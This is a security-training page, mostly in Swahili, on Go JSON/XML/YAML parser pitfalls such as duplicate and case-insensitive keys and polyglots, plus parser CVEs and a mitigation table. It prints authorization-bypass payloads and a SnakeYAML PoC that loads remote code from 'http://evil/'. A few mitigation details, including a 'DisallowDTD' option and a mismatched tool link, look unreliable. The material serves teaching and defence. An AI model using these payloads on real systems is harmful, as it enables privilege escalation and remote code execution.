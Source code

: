 # JSON, XML & Yaml Hacking & Masuala

{{#include ../banners/hacktricks-training.md}}

## Go JSON Decoder

Masuala yafuatayo yaligunduliwa kwenye Go JSON ingawa yanaweza kuwepo pia katika lugha nyingine. Masuala haya yalichapishwa katika [**this blog post**](https://blog.trailofbits.com/2025/06/17/unexpected-security-footguns-in-gos-parsers/).

Go’s JSON, XML, and YAML parsers have a long trail of inconsistencies and insecure defaults that can be abused to **kupita kando ya uthibitishaji**, **kuinua ruhusa**, or **kuondoa data nyeti**.


### (Un)Marshaling Data Isiyotarajiwa

Lengo ni kutumia structs zinazomruhusu mshambuliaji kusoma/kuandika mashamba nyeti (mfano, `IsAdmin`, `Password`).

- Mfano Struct:
```go
type User struct {
Username string `json:"username,omitempty"`
Password string `json:"password,omitempty"`
IsAdmin  bool   `json:"-"`
}
```
- Udhaifu za kawaida

1. **Missing tag** (hakuna tag = uwanja bado unachambuliwa kwa chaguo-msingi):
```go
type User struct {
Username string
}
```
Payload:
```json
{"Username": "admin"}
```
2. **Matumizi yasiyo sahihi ya `-`**:
```go
type User struct {
IsAdmin bool `json:"-,omitempty"` // ❌ wrong
}
```
Payload:
```json
{"-": true}
```
✔️ Njia sahihi ya kuzuia uwanja usifanywe (un)marshaled:
```go
type User struct {
IsAdmin bool `json:"-"`
}
```
### Tofauti za Parseri

Lengo ni ku-bypass idhini kwa kuchukua faida ya jinsi parser tofauti zinavyotafsiri payload ile ile kwa njia tofauti, kama katika:
- CVE-2017-12635: Apache CouchDB bypass kupitia funguo zilizojirudia
- 2022: Zoom 0-click RCE kupitia utofauti wa XML parser
- GitLab 2025 SAML bypass kupitia tabia zisizo za kawaida za XML


**1. Sehemu Zilizojirudia:**
Go's `encoding/json` huchukua sehemu ya **mwisho**.
```go
json.Unmarshal([]byte(`{"action":"UserAction", "action":"AdminAction"}`), &req)
fmt.Println(req.Action) // AdminAction
```
Parser wengine (mfano, Java’s Jackson) wanaweza kuchukua **kwanza**.

**2. Kutokutofautisha Herufi:**
Go haifanyi utofauti kati ya herufi kubwa na ndogo:
```go
json.Unmarshal([]byte(`{"AcTiOn":"AdminAction"}`), &req)
// matches `Action` field
```
Hata mbinu za Unicode zinafanya kazi:
```go
json.Unmarshal([]byte(`{"aKtionſ": "bypass"}`), &req)
```
**3. Kutokubaliana kati ya huduma:**
Fikiria:
- Proxy imeandikwa kwa Go
- AuthZ service imeandikwa kwa Python

Mshambuliaji anatumia:
```json
{
"action": "UserAction",
"AcTiOn": "AdminAction"
}
```
- Python inaona `UserAction`, inaikubali
- Go inaona `AdminAction`, inaitekeleza


### Mchanganyiko wa Muundo wa Data (Polyglots)

Lengo ni kuchukua fursa ya mifumo inayochanganya muundo (JSON/XML/YAML) au kushindwa kufunga kwenye makosa ya parser kama:
- **CVE-2020-16250**: HashiCorp Vault ilichanganua JSON kwa parser ya XML baada STS ilirudisha JSON badala ya XML.

Mshambulizi anadhibiti:
- Header ya `Accept: application/json`
- Udhibiti wa sehemu ya mwili wa JSON

XML parser ya Go ilichanganua hilo **hata hivyo** na kuamini utambulisho uliingizwa.

- Payload iliyotengenezwa:
```json
{
"action": "Action_1",
"AcTiOn": "Action_2",
"ignored": "<?xml version=\"1.0\"?><Action>Action_3</Action>"
}
```
Matokeo:
- **Go JSON** parser: `Action_2` (haizingatii utofauti wa herufi kubwa/dogo + mwisho hushinda)
- **YAML** parser: `Action_1` (hujali utofauti wa herufi kubwa/dogo)
- **XML** parser: huchambua `"Action_3"` ndani ya string

---

## Udhaifu Muhimu wa Parser (2023-2025)

> Masuala yafuatayo yanayoweza kutumiwa hadharani yanaonyesha kuwa uchambuzi usio salama ni tatizo la lugha nyingi — si tatizo la Go pekee.

### SnakeYAML Deserialization RCE (CVE-2022-1471)

* Inaathiri: `org.yaml:snakeyaml` < **2.0** (inayotumika na Spring-Boot, Jenkins, n.k.).
* Chanzo kuu: `new Constructor()` inafanya deserialization ya **arbitrary Java classes**, ikiruhusu gadget chains ambazo zinafikia remote-code execution.
* One-liner PoC (itafungua calculator kwenye mwenyeji dhaifu):
```yaml
!!javax.script.ScriptEngineManager [ !!java.net.URLClassLoader [[ !!java.net.URL ["http://evil/"] ] ] ]
```
* Suluhisho / Kupunguza:
1. **Sasisha hadi ≥2.0** (inatumia `SafeLoader` kwa chaguo-msingi).
2. Katika matoleo ya zamani, tumia waziwazi `new Yaml(new SafeConstructor())`.

### libyaml Double-Free (CVE-2024-35325)

* Inaathiri: `libyaml` ≤0.2.5 (maktaba ya C inayotumiwa na bindings nyingi za lugha).
* Tatizo: Kupiga `yaml_event_delete()` mara mbili husababisha double-free ambayo wadukuzi wanaweza kuibadilisha kuwa DoS au, katika baadhi ya matukio, heap exploitation.
* Hali: Upstream ilikataa kama “API misuse”, lakini distributions za Linux zilitumwa patched **0.2.6** ambazo hufanya null-frees pointer kwa kujilinda.

### RapidJSON Integer (Under|Over)-flow (CVE-2024-38517 / CVE-2024-39684)

* Inaathiri: Tencent **RapidJSON** kabla ya commit `8269bc2` (<1.1.0-patch-22).
* Mende: Katika `GenericReader::ParseNumber()` hesabu isiyotambuliwa inaruhusu wadukuzi kutengeneza nambari kubwa sana ambazo zinapinda na kuharibu heap — hatimaye kuruhusu privilege-escalation wakati object graph iliyotokana inapotumika kwa maamuzi ya uthibitisho.

---

### 🔐 Kupunguzwa (Imesasishwa)

| Hatari                               | Suluhisho / Mapendekezo                                  |
|-------------------------------------|------------------------------------------------------------|
| Minda isiyojulikana (JSON)          | `decoder.DisallowUnknownFields()`                          |
| Minda zinazorudiwa (JSON)           | ❌ Hakuna suluhisho katika stdlib — thibitisha kwa [`jsoncheck`](https://github.com/dvsekhvalnov/johnny-five) |
| Mechi isiyozingatia utofauti wa herufi (Go) | ❌ Hakuna suluhisho — thibitisha struct tags + pre-canonicalize input   |
| Takataka za XML / XXE               | Tumia parser imara (`encoding/xml` + `DisallowDTD`)     |
| Vifunguo visivyotambulika (YAML)    | `yaml.KnownFields(true)`                                   |
| **Deserialization hatari ya YAML**   | Tumia SafeConstructor / sasisha hadi SnakeYAML ≥2.0            |
| libyaml ≤0.2.5 double-free          | Sasisha hadi **0.2.6** au toleo lililorekebishwa na distro            |
| RapidJSON kabla ya commit iliyorekebishwa | Compile against latest RapidJSON (≥July 2024)              |

## Angalia pia

{{#ref}}
mass-assignment-cwe-915.md
{{#endref}}

## Marejeo

- Baeldung – “Resolving CVE-2022-1471 With SnakeYAML 2.0”
- Ubuntu Security Tracker – CVE-2024-35325 (libyaml)

{{#include ../banners/hacktricks-training.md}}
